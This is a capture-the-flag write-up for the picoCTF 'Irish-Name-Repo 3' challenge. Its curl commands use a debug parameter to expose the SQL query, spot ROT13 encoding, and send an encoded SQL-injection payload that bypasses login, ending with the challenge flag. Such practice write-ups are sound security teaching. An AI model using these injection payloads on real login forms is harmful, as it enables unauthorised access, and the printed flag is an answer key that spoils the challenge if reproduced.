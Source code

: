 # Irish-Name-Repo 3

## Description
> There is a secure website running at `https://jupiter.challengs.picoctf.org/problem/54253/` [link](https://jupiter.challenges.picoctf.org/problem/54253/) or http://jupiter.challenges.picoctf.org:54253. Try to see if you can login as admin!

## Hints
> Seems like the password is encrypted

## Solution
1. The website offered an admin login page:
``` html
<form action="login.php" method="POST">
    <fieldset>
        <div class="form-group">
            <label for="username">Username:</label>
            <input type="text" id="username" name="username" class="form-control">
        </div>
        <div class="form-group">
            <label for="password">Password:</label>
            <div class="controls">
                <input type="password" id="password" name="password" class="form-control">
            </div>
        </div>
        <input type="hidden" name="debug" value="0">

        <div class="form-actions">
            <input type="submit" value="Login" class="btn btn-primary">
        </div>
    </fieldset>
</form>
```

2. The solution from the `Irish-Name-Repo_1` and 
`Irish-Name-Repo_2` didn't work anymore.

3. Using the debug interface, we can inspect the SQL query:
``` console
┌──(huyhayho㉿Huydeptrai)-[~/…/picoctf2019/Web_Exploitation/Medium/Irish_Name_Repo_3]
└─$ curl https://jupiter.challenges.picoctf.org/problem/54253/login.php --data "password=test&debug=1"

<pre>password: test
SQL query: SELECT * FROM admin where password = 'grfg'
</pre><h1>Login failed.</h1>  
```

4. It looks like the password was somehow encrypted. Given the fact that t was replaced with g twice, this might be a substitution cipher. Let's try a simple injection:
``` console
┌──(huyhayho㉿Huydeptrai)-[~/…/picoctf2019/Web_Exploitation/Medium/Irish_Name_Repo_3]
└─$ curl https://jupiter.challenges.picoctf.org/problem/54253/login.php --data "password=' or 1==1--&debug=1"

<pre>password: ' or 1==1--
SQL query: SELECT * FROM admin where password = '' be 1==1--'
</pre> 
```

5. Now let's try again, sending be instead of or:
``` console
┌──(huyhayho㉿Huydeptrai)-[~/…/picoctf2019/Web_Exploitation/Medium/Irish_Name_Repo_3]
└─$ curl https://jupiter.challenges.picoctf.org/problem/54253/login.php --data "password=' be 1==1--&debug=1"

<pre>password: ' be 1==1--
SQL query: SELECT * FROM admin where password = '' or 1==1--'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{3v3n_m0r3_SQL_7f5767f6}</p> 
```

## Flag
> picoCTF{3v3n_m0r3_SQL_7f5767f6}